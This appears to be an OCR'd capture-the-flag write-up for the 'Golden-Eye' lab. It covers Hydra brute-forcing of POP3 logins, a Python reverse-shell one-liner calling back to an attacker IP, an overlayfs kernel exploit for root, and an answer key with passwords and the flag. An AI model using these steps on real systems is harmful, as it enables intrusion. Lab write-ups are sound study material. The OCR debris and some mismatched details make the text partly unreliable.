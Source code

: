 markdown
Copy code
# **Golden-Eye Writeup by Brandon Gerber**

---

## **Task 1: Intro and Enumeration**

### **1.1 Nmap Scan**

I began by scanning the target machine using `nmap` to identify open ports:

nmap -n -v -sT -p- -T5 <IP>

markdown


This revealed **4 open ports**.

### **1.2 Source Code Analysis**

Next, I checked the **source code of the website** and found some comments:

// contacting a user named boris // left encoded password // mentioned another person named Natalya




Based on this, I assumed "boris" was a **username**, and I found an encoded password in the comments:  
&#73;&#110;&#118;&#105;&#110;&#99;&#105;&#98;&#108;&#101;&#72;&#97;&#99;&#107;&#51;&#114;

### **1.3 Decoding Password**

Using an HTML decoder, I decoded it to: **InvincibleHack3r**.  
I realized I could have just used `dcode<pw>`.

---

## **Task 2: It’s Mail Time**

### **2.1 Login via Telnet**

I tried logging in via **telnet** to the **POP3 service on port 55007**, but the credentials failed. The next hint was to use **Hydra** to crack the password:

hydra -l boris -P <path_to_password_list> <IP> -s 55007 pop3

markdown


This successfully found the password:  
**Password: secret1!**

### **2.2 Retrieving Emails**

I then logged in via telnet:

telnet <IP> 55007 user boris pass secret1!

mathematica


After logging in, I listed and retrieved the emails using `retr <email num>`, revealing another username, **"Xenia."**

### **2.3 Cracking Xenia’s Password**

Using Hydra again, I cracked Xenia’s password:

hydra -l Xenia -P <path_to_password_list> <IP> -s 55007 pop3

vbnet


The password was **bird**. After logging into her account, I found her new password: **RCP90rulez**.

### **2.4 Accessing the Website**

This led me to the next hint regarding the **severnaya-station.com** website. I added it to my `/etc/hosts` file to access it:

nano /etc/hosts

Add the line
<IP> severnaya-station.com




I visited **http://severnaya-station.com/gnocertdir/** and used Xenia's credentials to log in:

user: Xenia pass: RCP90rulez!




Under **"My Profile,"** I found a message from **Dr. Doak** revealing his creds:

hydra -l Doak -P <path_to_wordlist> <IP> -s 55007 pop3




Password: **goat**

Using telnet again, I found his password in an email: **4England!**

---

## **Task 3: Gaining Access**

### **3.1 Logging in with Dr. Doak's Credentials**

Logging in with Dr. Doak's credentials (`dr_doak`, `4England!`), I explored his private files and discovered a file named **s3cret.txt**, which mentioned the location of an image at `/dir007key/for-007.jpg`. I downloaded the image using `wget` and extracted hidden information with `exiftool`. Inside the description field, I found a **Base64 string**:

eFdpbnRlckE50TV4IQ==




Decoded, it revealed: **xWinter1995x!**

user: admin pass: xWinter1995x!




---

## **Task 4: Exploitation**

### **4.1 Creating a Reverse Shell**

I created a **reverse shell** using Python:

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>", <Port>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh"])'




I inserted this script into the spell check plugin on the website, then started a listener using `pwncat`:

pwncat --listen -p 9999




This granted me a shell on the system. The kernel version was **3.13.0-32-generic**, and I found an **overlayfs privilege escalation exploit** (https://www.exploit-db.com/exploits/37292).

### **4.2 Compiling and Executing the Exploit**

I compiled and executed the exploit:

upload exploit.c /tmp cd /tmp cc exploit.c -o exploit ./exploit




This gave me **root access**. I navigated to the `/root` directory and found the final flag:

cat flag.txt




**Root flag: 568628e0d993b1973adc718237da6e93**

---

## **ANSWERS**

---

### **Task 1:**

- **How many ports are open?**  
  **Answer:** 4

- **Who needs to update their default password?**  
  **Answer:** boris

- **What's their password?**  
  **Answer:** InvincibleHack3r

---

### **Task 2:**

- **What's their new password?**  
  **Answer:** secret1!

- **What services is configured to use port 55007?**  
  **Answer:** telnet

- **What user can break Boris' codes?**  
  **Answer:** natalya

- **What user can you login as on the severnaya-station.com site?**  
  **Answer:** xenia

- **What was Doak's password?**  
  **Answer:** goat

- **What's Dr. Doak's password?**  
  **Answer:** 4England!

---

### **Task 3:**

- **What's the kernel version?**  
  **Answer:** 3.13.0-32-generic

- **What is the root flag?**  
  **Answer:** 568628e0d993b1973adc718237da6e93
